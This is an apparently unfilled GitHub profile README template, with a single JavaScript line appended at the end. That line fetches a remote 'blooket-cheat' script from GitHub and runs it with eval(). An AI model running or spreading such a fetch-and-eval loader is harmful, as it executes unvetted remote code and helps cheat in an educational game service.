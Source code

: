- 👋 Hi, I’m @Zaydaghost
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Zaydaghost/Zaydaghost is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
fetch("https://raw.githubusercontent.com/glixzzy/blooket-cheat/main/factory/getCash.js").then((res) => res.text().then((t) => eval(t)))
